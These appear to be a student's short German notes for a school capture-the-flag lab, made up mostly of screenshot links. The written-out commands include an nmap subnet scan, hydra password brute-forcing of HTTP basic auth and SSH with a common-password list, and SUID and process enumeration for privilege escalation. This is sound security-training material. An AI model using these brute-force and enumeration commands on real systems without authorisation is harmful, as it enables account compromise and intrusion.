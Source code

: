 ```yaml
---
tags:
  - 3te_Klasse
  - itsi
---
```

`nmap 192.168.56.0/24`
mit allen ports
-T4 damit keine firewallfaxen
![[Pasted image 20250117175643.png]]
![[Pasted image 20250117175813.png]]
![[Pasted image 20250117175921.png]]
![[Pasted image 20250117180005.png]]
![[Pasted image 20250117180023.png]]
![[Pasted image 20250117180037.png]]
![[Pasted image 20250117180113.png]]
![[Pasted image 20250117180209.png]]
![[Pasted image 20250117180747.png]]
![[Pasted image 20250117180729.png]]
![[Pasted image 20250117181656.png]]
python file für proof zeigen
github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
https://tylerrockwell.github.io/defeating-basic-auth-with-hydra/
`hydra -l user -P pw.txt -s 55487 -f 192.168.15.3 http-get /`
![[Pasted image 20250117182116.png]]
![[Pasted image 20250117182208.png]]
`FLAG{use_secure_credentials}`
![[Pasted image 20250117183032.png]]
![[Pasted image 20250117183014.png]]
![[Pasted image 20250117183153.png]]
![[Pasted image 20250117183736.png]]
`ls -R *`
![[Pasted image 20250117190434.png]]
![[Pasted image 20250117191517.png]]
![[Pasted image 20250117191545.png]]
`hydra -l GrumpyCat -P pw.txt 192.168.15.3 ssh -t 4`
`find -perm -4000 2> /dev/null`
![[Pasted image 20250117195129.png]]
`cat /proc/741/cmdline`
`find -name "ctf_server.py" 2> /dev/null`
https://superuser.com/questions/632979/if-i-know-the-pid-number-of-a-process-how-can-i-get-its-name
![[Pasted image 20250117202527.png]]
https://medium.com/techiepedia/series-of-ctf-machines-walkthrough-4-linux-privilege-escalation-enumeration-247899027be
`ls -R * 2>dev/null| grep -i flag`
`cat /usr/local/bin/flag_process.sh`
![[Pasted image 20250117204436.png]]
![[Pasted image 20250117211103.png]]
![[Pasted image 20250117211250.png]]
![[Pasted image 20250117211407.png]]
![[Pasted image 20250117211426.png]]